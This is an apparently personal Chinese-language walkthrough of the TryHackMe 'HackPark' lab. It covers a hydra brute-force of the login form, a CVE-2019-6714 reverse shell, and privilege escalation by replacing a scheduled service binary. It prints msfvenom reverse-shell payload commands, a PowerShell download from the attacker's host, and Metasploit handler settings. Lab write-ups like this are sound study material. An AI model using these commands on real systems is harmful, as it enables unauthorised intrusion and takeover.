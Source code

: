 ```yaml
---
{"dg-publish":true,"permalink":"/tryhackme/tryhackme HackPark/","tags":["靶场","tryhackme","oscp"]}
---
```



## hydra
首先需要找到要攻击的登录页面，并确定表单向 Web 服务器发出的请求类型。通常，Web 服务器发出两种类型的请求，一种是用于从 Web 服务器请求数据的 GET 请求，另一种是用于将数据发送到服务器的 POST 请求。

```
hydra -l admin -P /home/kali/下载/rockyou.txt 10.10.182.107 http-post-form "/Account/login.aspx:__VIEWSTATE=bHtBaxeGBDVWuciTbSdua413rA52xSgfkZOpp5pNtd5L%2BW7JJ3rvmGnQVBQ8WPa7K8F2frmzFWSruzLRe4eeOztkJmkDqgCe25QYJDTnYWAYtza%2FtAA1cpniPjfDU%2Fj6KEP5BAgqgEMcfM4RzcNjT2LOoXNpqlVLIhCalMEi0sd9N1Cg6OPXdUfSzSV0BSFtzjJf%2BHI5q%2B%2F3NMaqOgLCDDAwoXVpZ21o49k%2BzJO9lAgrX5Y4AnGS0zZNOAi2OBE0b%2BmrUFGeqVGH9k5gOjGRKSQ0MwmhrJvxMFscjYFKMUFpbqdyCmA7v9lWloXZu4Qmo6mBSXhX2QJJWt%2FKqloofGoP9DbGXhLVYooLTL2EQ8S%2B%2F8k2&__EVENTVALIDATION=ixozvy91Xs5g5EMUDPd8KdKFouaqL9lzCy75PtarrcKQrEOquCkd6LJit1G8QX5i8B17f088XJj%2BUKh5yGN4OJCIvhNU%2FgzXfSH8L1t%2FlVU7luLVvSYJR0J9mQW8ym7mHRBw0Erdw1AvDkRIoXqL14dMowAJOzseIIrMMdGp%2BQOf6N30&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Login failed"
```

在这里我们需要f12找到网络中的请求包 将完整的request作为hydra需要的参数 要注意UserName=^USER^和Password=^PASS^需要改成^USER^和^PASS^ 不能是自己输入的参数

![image.png](https://s2.loli.net/2025/04/18/BJNz21SVRphGqCo.png)

![image.png](https://s2.loli.net/2025/04/18/sd9wpTcCQOqbWg7.png)

破解成功

## 漏洞攻击
接下来根据漏洞 攻击



CVE-2019-6714 下载cs文件之后需要把ip改成自己vpn分配的ip 修改完成之后将名字改为PostView.ascx

上传成功之后在靶机ip/?theme=../../App_Data/files就能反弹shell


![image.png](https://s2.loli.net/2025/04/18/RzSrhFnveKjBTfx.png)


![image.png](https://s2.loli.net/2025/04/18/t9MdyKXCgWpBQIh.png)

我们这里已经获得了shell 我们需要拓展一下 拓展到msf中 我们写一个msfvenom 用python传到靶机上 运行exe文件 就能获得msf的终端

## msf权限提升
用multi/handler来获得shell
![image.png](https://s2.loli.net/2025/04/18/QVh5xquJWUkMLnG.png)

![image.png](https://s2.loli.net/2025/04/18/gICMmUkhu3zjLfi.png)

这个问题有点意思 我是没接触过 学习学习一下思路


在meterpreter用了ps查看进程

用了winpea来直接扫描

发现一个WindowsScheduler
![image.png](https://s2.loli.net/2025/04/18/Be19fUNSyFtOHoL.png)

sc qc检查一下 也没啥收获 到他所在的路径看一下
![image.png](https://s2.loli.net/2025/04/18/PhLDlbp2x3MWG9w.png)

![image.png](https://s2.loli.net/2025/04/18/FX26SAUTHxu5aQt.png)

有个事件文件 检查一下这个文件

![image.png](https://s2.loli.net/2025/04/18/I3rMpbc5sOPQ1vX.png)

事件中有个message.exe 用的还是管理员权限 应该没毛病了

![image.png](https://s2.loli.net/2025/04/18/X5w18WvqVkdFHPs.png)

接下来是两个flag

利用异常服务及其对应的二进制文件进行提权。

有点东西了

后面的其中一个思路就是msfvenom重新创建一个Message.exe来替换掉原本的 就是替换掉原本有管理权限的exe

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.17.40.203 LPORT=6666 -e x86/shikata_ga_nai -f exe -o Message.exe
```

用powershell上传成功

```
powershell -c wget "http://10.17.40.203:8000/Message.exe" -outfile "Message1.exe"
```

![image.png](https://s2.loli.net/2025/04/18/rya1OslE9phSomT.png)

把原本的文件替换掉

```
mv Message.exe Message.exe.bak

mv Message1.exe Message.exe
```

替换完就可以run一下msf的反弹模块

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.17.40.203
set LPORT 6666
run
```

![image.png](https://s2.loli.net/2025/04/18/XG2ElbfTDveMCuy.png)
成功获得管理员权限

有管理员权限就能一下子获得两个flag